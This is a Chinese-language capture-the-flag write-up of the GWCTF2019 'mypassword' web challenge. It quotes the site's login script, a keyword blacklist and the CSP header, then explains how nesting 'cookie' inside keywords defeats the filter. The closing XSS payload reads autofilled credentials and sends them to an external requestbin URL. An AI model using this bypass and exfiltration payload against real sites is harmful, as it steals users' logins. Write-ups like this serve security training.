


# GWCTF2019-mypassword

参考博客：https://www.cnblogs.com/rabbittt/p/13385787.html

首先打开网页是一个登录界面



先查看下源码有没有什么信息，发现了`login.php、register.php`以及`login.js`

login.js

```
//login.js
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}
}
```

代码会将Cookie中的username和password填进当前表单

随便注册一个账号登录。



根据提示应该不是sql注入题目。

再次查看网页源码发现`feedback.php、list.php、logout.php`

查看feedback.php源码中的注释

```
if(is_array($feedback)){
				echo "<script>alert('反馈不合法');</script>";
				return false;
			}
			$blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
			foreach ($blacklist as $val) {
		        while(true){
		            if(stripos($feedback,$val) !== false){
		                $feedback = str_ireplace($val,"",$feedback);
		            }else{
		                break;
		            }
		        }
		    }
```

根据黑名单过滤的内容判断是XSS

随便提交内容，查看content.php的响应头内的内容

```
Content-Security-Policy：default-src 'self';script-src 'unsafe-inline' 'self'
```

允许内联脚本执行，但是不能远程请求Js脚本执行

并且feedback中注释内容的过滤是把关键词替换成了空格，并且每个关键词只检查一遍，所以可以构造形如incookieput，这样结果就是input

requestbin：http://requestbin.cn/

我们可以利用feedback页面提交我们所构造的表单来获取flag

```
<inpcookieut type="text" name="username"></inpcookieut>
<inpcookieut type="text" name="password"></inpcookieut>
<scricookiept scookierc="./js/login.js"></scricookiept>
<scricookiept>
	var uname = documcookieent.getElemcookieentsByName("username")[0].value;
	var passwd = documcookieent.getElemcookieentsByName("password")[0].value;
	var res = uname + " " + passwd;
	documcookieent.locacookietion="http://requestbin.cn:80/18ut5o41?a="+res;
</scricookiept>
```

然后在feedback页面提交后返回我们的xss平台上查看得到的反馈得到flag

等待一会然后刷新即可得到账号密码，flag为密码


